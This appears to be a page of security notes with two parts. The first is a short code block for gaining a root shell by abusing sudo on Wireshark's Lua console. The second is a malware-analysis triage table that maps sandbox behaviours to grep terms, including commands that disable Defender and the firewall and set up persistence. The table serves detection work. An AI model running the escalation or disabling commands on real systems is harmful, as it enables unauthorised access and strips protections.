 ```
sudo wireshark &
Tools -> Lua Console
os.execute("mkdir -p /user/bin")
os.execute("cp /bin/sh /user/bin/tshark")

sudo /user/bin/tshark
```

Start at System Summary  

| Behavior                                                                                   | Search queries / things to grep for in the report                                                                                                                           |                              Joe Sandbox Signature Category |
| ------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------: |
| Attempts to get the victim to disable security protections                                 | `Disable`, `disable-defender`, `DisableAntiSpyware`, `Set-MpPreference -DisableRealtimeMonitoring`, `Stop-Service WinDefend`, `netsh advfirewall set allprofiles state off` | Lowering of HIPS / PFW / Operating System Security Settings |
| Deletes Microsoft Office-related registry keys                                             | `HKLM\\SOFTWARE\\Microsoft\\Office`, `HKCU\\Software\\Microsoft\\Office`, `RegDeleteValue`, `RegDeleteKey`, `NtDeleteKey`                                                   |                       Persistence and Installation Behavior |
| Creates registry keys associated with Microsoft Excel                                      | `Excel`, `Microsoft\\Office\\.*Excel`, `RegCreateKeyEx`, `RegSetValueEx`, `HKCU\\Software\\Microsoft\\Office`                                                               |                       Persistence and Installation Behavior |
| Creates any registry values                                                                | `RegSetValueEx`, `RegSetValue`, `NtSetValueKey`, `reg add`, `Set-ItemProperty`                                                                                              |                       Persistence and Installation Behavior |
| Drops RegAsm virus                                                                         | `regasm.exe`, `RegAsm`, dropped file name contains `regasm`, `CreateFile` -> `%TEMP%\\regasm*.exe`, PE write to disk                                                        |                                                   Spreading |
| Sends signals to force immediate program termination                                       | `TerminateProcess`, `ExitProcess`, `TerminateThread`, `taskkill`, `GenerateConsoleCtrlEvent`                                                                                |                             Malware Analysis System Evasion |
| Malware file is most likely programmed in C or C++                                         | Imports: `msvcrt`, `vcruntime`, `msvcp`, mangled symbols `_Z`, `__cplusplus`, `PE -> compiled with MSVC`                                                                    |                                              System Summary |
| Attempts to detect presence of the Mirai botnet                                            | `mirai`, `TELNET`, `port 23`, `2323`, `brute`, `telnet-scanner`, `high-rate connect attempts`                                                                               |                                                  Networking |
| Attempts to use a keylogger                                                                | `SetWindowsHookEx`, `WH_KEYBOARD_LL`, `GetAsyncKeyState`, `GetKeyState`, files named `keylog`, `WriteFile` to logs                                                          |      Key, Mouse, Clipboard, Microphone and Screen Capturing |
| Attempts to copy clipboard contents                                                        | `OpenClipboard`, `GetClipboardData`, `CF_UNICODETEXT`, `Get-Clipboard`, `OleGetClipboard`                                                                                   |      Key, Mouse, Clipboard, Microphone and Screen Capturing |
| Hooks registry keys or values to maintain persistence via autostart                        | `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`, `RunOnce`, `Winlogon`, `RegSetValueEx` writing to `Run`                                                          |                       Persistence and Installation Behavior |
| Possible Personal Firewall (PFW) or Host-based Intrusion Prevention System (HIPS) evasion  | `AmsiScanBuffer` patch, `EtwEventWrite` tampering, `NtProtectVirtualMemory`, `Unhook`, `IsDebuggerPresent`                                                                  |            HIPS / PFW / Operating System Protection Evasion |
| Executes or interacts with `splwow64.exe` (Windows system component)                       | process name `splwow64.exe`, `OpenProcess`/`CreateProcess` targeting `splwow64.exe`, `WriteProcessMemory` -> `splwow64.exe`                                                 |                                 Remote Access Functionality |
| Drops a portable executable file into `C:\\Windows` (drops only)                           | `CreateFile` / `WriteFile` / `MoveFile` -> `C:\\Windows\\.*\\.exe`, `CopyFile` to `C:\\Windows\\`                                                                           |                                                   Spreading |
| Looks for the name or serial number of a device                                            | `Win32_BIOS`, `SerialNumber`, `GetVolumeInformation`, `GetComputerName`, `DeviceIoControl`, `Model`, `Manufacturer`                                                         |             Language, Device and Operating System Detection |
| Attempts to obscure data (encoding, encryption, obfuscation)                               | `base64`, `Convert.FromBase64String`, `XOR`, `CryptEncrypt`, `BCryptEncrypt`, high-entropy blobs, long `xor` loops                                                          |                                            Data Obfuscation |
| Sends HTTP GET or POST requests without a User-Agent header                                | HTTP requests where `User-Agent:` missing or empty; raw socket `GET / HTTP/1.1` without `User-Agent` header                                                                 |                                                  Networking |
| Uses loops or repeated commands (e.g., pings) to delay execution or evade sandbox analysis | `Sleep(`, `NtDelayExecution`, `ping -n`, repeated `ping`, `for`/`while` loops with `Sleep(5000+)`                                                                           |                             Malware Analysis System Evasion |
| Attempts to override DNS resolution for a specific domain on the local machine             | writes to `C:\\Windows\\System32\\drivers\\etc\\hosts`, `Set-DnsClientServerAddress`, `reg add` DNS entries, `netsh interface ip add dns`                                   |                                                  Networking |
| Possible system shutdown behavior                                                          | `ExitWindowsEx`, `InitiateSystemShutdownEx`, `Shutdown`, `ExitProcess`, `CreateProcess` running `shutdown.exe /s /t 0`                                                      |            HIPS / PFW / Operating System Protection Evasion |

---
